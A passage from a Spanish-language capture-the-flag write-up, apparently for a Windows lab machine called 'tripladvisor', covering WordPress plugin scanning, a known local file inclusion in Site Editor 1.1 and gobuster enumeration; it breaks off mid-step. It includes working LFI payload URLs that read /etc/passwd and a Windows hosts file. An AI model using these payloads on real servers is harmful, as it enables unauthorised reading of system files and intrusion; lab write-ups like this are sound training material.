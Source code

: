
Obtengo mucha información sobre el wordpress pero comienzo con esto:

```zsh
[+] editor
 | Location: http://tripladvisor:8080/wordpress/wp-content/plugins/editor/
 |
 | Found By: Urls In Homepage (Passive Detection)
 | Confirmed By: Urls In 404 Page (Passive Detection)
 |
 | Version: 1.1 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://tripladvisor:8080/wordpress/wp-content/plugins/editor/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://tripladvisor:8080/wordpress/wp-content/plugins/editor/readme.txt
 ```
>site editor version 1.1

Busco en internet y según https://www.exploit-db.com/exploits/44340 tengo un LFI

Según el exploit,

```zsh
** Proof of Concept **
http://<host>/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd

** Solution **
No fix available yet.
```

En windows no tengo `/etc/passw`  así que para probar puedo poner `c:\Windows\System32\Drivers\etc\hosts`


```zsh
http://tripladvisor:8080/wordpress/wp-content/plugins/editor//editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=c:\Windows\System32\Drivers\etc\hosts
```
> Funciona, tengo un LFI

Continuo y hago una búsqueda de directorios:

```zsh
gobuster dir -u http://tripladvisor:8080 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt -t 200 --no-error
```

Obteniendo unos ficheros que debería examinar:

```zsh
/security.txt         (Status: 403) [Size: 1163]
/security.php         (Status: 403) [Size: 1163]
/security.conf        (Status: 403) [Size: 1163]
/security.html        (Status: 403) [Size: 1163]
```

Lo cargo en el navegador y me enseña esto:

